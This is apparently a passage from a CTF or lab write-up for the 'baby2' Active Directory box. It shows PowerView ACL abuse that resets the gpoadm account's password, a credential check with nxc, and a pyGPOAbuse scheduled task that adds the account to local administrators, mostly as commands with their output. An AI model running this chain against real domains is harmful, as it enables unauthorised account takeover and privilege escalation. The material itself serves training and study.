     custom_prompt> . .\PowerView.ps1
    custom_prompt> add-domainobjectacl -rights "all" -targetidentity "gpoadm" -principalidentity "Amelia.Griffiths"
    custom_prompt> $cred = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    custom_prompt> set-domainuserpassword gpoadm -accountpassword $cred
verify

    ➜  baby2 nxc smb DC -u gpoadm -p 'Password123!'         
    SMB         10.10.111.91    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False)
    SMB         10.10.111.91    445    DC               [+] baby2.vl\gpoadm:Password123! 

## gpoabuse

![img-description](/assets/images/4.png)

    Gpcpath:
    \\BABY2.VL\SYSVOL\BABY2.VL\POLICIES\{31B2F340-016D-11D2-945F-00C04FB984F9}

https://github.com/Hackndo/pyGPOAbuse

    ➜  pyGPOAbuse git:(master) python3 pygpoabuse.py baby2.vl/GPOADM:'Password123!' -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" -command 'net localgroup administrators GPOADM /add' -f
    SUCCESS:root:ScheduledTask TASK_93305dc2 created!
    [+] ScheduledTask TASK_93305dc2 created!

verify

    custom_prompt> net user gpoadm
    User name                    gpoadm
    Full Name                    gpoadm
    Comment                      
    User's comment               
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            1/12/2025 2:04:36 PM
    Password expires             Never
    Password changeable          1/13/2025 2:04:36 PM
    Password required            Yes
    User may change password     Yes
